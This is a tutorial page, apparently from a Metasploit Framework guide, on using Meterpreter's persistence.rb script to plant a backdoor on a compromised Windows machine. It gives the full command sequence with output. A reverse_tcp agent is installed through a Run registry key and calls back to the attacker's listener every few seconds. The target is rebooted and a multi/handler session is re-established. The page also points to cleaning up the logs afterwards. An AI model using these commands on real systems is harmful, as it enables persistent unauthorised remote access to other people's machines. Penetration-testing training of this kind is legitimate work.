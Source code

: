 ```yaml
---
draft: false
title: MSF Meterpreter Persistent Backdoor
linkTitle:  Persistent Backdoor
translationKey: msf-meterpreter-persistent-backdoor
date: 2017-06-15T13:57:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Using the persistence.rb script code to create a backdoor with Meterpreter.
url: /tr/msf-meterpreter-kalici-backdoor/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
weight: 400
---
```

## Persistence.rb

Another method that you can use in Metasploit Framework to provide persistence after logging in to the target system is to use the `persistence.rb` script code.

Thanks to this method, you can reconnect even if the target computer is updated. Also, restarting the target system will not affect the connection.

Let's repeat the warning we made for `metsvc` in the previous topic. The `persistence.rb` backdoor does not use any session information for connection. Anyone who discovers this vulnerability can connect.

After logging in to the target system with meterpreter, let's view the help information before using the `persistence.rb` script code and see what possibilities it provides us.

```bash
meterpreter > run persistence -h

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
Meterpreter Script for creating a persistent backdoor on a target host.

OPTIONS:

 -A Automatically start a matching exploit/multi/handler to connect to the agent
 -L Location in target host to write payload to, if none %TEMP% will be used.
 -P Payload to use, default is windows/meterpreter/reverse_tcp.
 -S Automatically start the agent on boot as a service (with SYSTEM privileges)

-T Alternate executable template to use

-U Automatically start the agent when the User logs on

-X Automatically start the agent when the system boots

-h This help menu

-i The interval in seconds between each connection attempt

-p The port on which the system running Metasploit is listening

-r The IP of the system running Metasploit listening for the connect back
```

What does the following `persistence -U -i 5 -p 443 -r 192.168.1.71` command do?

`-U` enables an automatic connection to our computer when a user logs in.

`-i 5` The `persistence.rb` script code on the other side tries to connect to us every 5 seconds.

`-p 443` is the port number on which our listening computer is listening.

`-r 192.168.1.71` is the IP number of our listening computer.

```bash
meterpreter > run persistence -U -i 5 -p 443 -r 192.168.1.71
> Creating a persistent agent: LHOST=192.168.1.71 LPORT=443 (interval=5 onboot=true)
> Persistent agent script is 613976 bytes long
> Uploaded the persistent agent to C:\WINDOWS\TEMP\yyPSPPEn.vbs
> Agent executed with PID 492
> Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
> Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
> For cleanup use command: run multi_console_command -rc /root/.msf4/logs/persistence/XEN-XP-SP2-BARE_20100821.2602/clean_up__20100821.2602.rc
meterpreter >
```

The script that is started as a result of the command we gave also shows how to clean the log when our work is completed, as can be seen in the output.

```bash
multi_console_command -rc /root/.msf4/logs/persistence/XEN-XP-SP2-BARE_20100821.2602/clean_up__20100821.2602.rc
```

We can understand whether the script is working and whether it is connecting automatically by restarting the target computer. Let's restart the target computer.

```bash
meterpreter > reboot
Rebooting...
meterpreter > exit

> Meterpreter session 3 closed. Reason: User exit
```

Let's restart the listener module `exploit/multi/handler`.

```bash
msf exploit(ms08_067_netapi) > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.71
LHOST => 192.168.1.71
msf exploit(handler) > set LPORT 443
LPORT => 443
msf exploit(handler) > exploit

> Started reverse handler on 192.168.1.71:443
> Starting the payload handler...
```

When the target computer restarts, the connection to the local computer will be reestablished as soon as the session is opened, as seen below.

```bash
> Sending stage (748544 bytes) to 192.168.1.161
> Meterpreter session 5 opened (192.168.1.71:443 -> 192.168.1.161:1045) at 2010-08-21 12:31:42 -0600

meterpreter > sysinfo
Computer: XEN-XP-SP2-BARE
OS: Windows XP (Build 2600, Service Pack 2).
Arch: x86
Language: en_US
meterpreter >
```
